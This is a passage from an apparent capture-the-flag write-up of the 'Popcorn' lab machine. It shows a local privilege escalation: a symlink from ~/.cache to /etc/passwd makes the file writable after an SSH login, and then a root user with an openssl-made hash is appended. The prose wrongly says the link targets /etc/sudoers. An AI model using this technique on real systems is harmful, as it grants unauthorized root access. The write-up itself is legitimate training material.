       Graph this data and manage this system at https://landscape.canonical.com/


    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.

    $



But the `.cache` directory shows up with a `motd.legal-displayed`:



    www-data@popcorn:~$ find .cache/ -type f -ls
      4082    0 -rw-r--r--   1 www-data www-data        0 Jun 21 21:49 .cache/motd.legal-displayed



#### Get Write on passwd

I'll clean up the `~/.cache` directory and replace it with a link to
`/etc/sudoers`:



    www-data@popcorn:~$ rm -rf .cache/
    www-data@popcorn:/var/www$ ln -s /etc/passwd .cache
    www-data@popcorn:/var/www$ ls -la .cache 
    lrwxrwxrwx 1 www-data www-data 11 Jun 21 22:04 .cache -> /etc/passwd



Now I'll log in again with SSH, and then `/etc/passwd` is owned by
`www-data`:



    www-data@popcorn:/var/www$ ls -l /etc/passwd
    -rw-r--r-- 1 www-data www-data 1031 Mar 17  2017 /etc/passwd



#### Add Root Users

With write access, I'll just add a root user. First, I need a password
hash:



    www-data@popcorn:/var/www$ openssl passwd -1 0xdf
    $1$sWwJSjdl$vj3sfStwX82SUTKJDoYhI1



Now I'll add a user to `/etc/passwd`:



    www-data@popcorn:/var/www$ echo 'oxdf:$1$sWwJSjdl$vj3sfStwX82SUTKJDoYhI1:0:0:pwned:/root:/bin/bash' >> /etc/passwd  

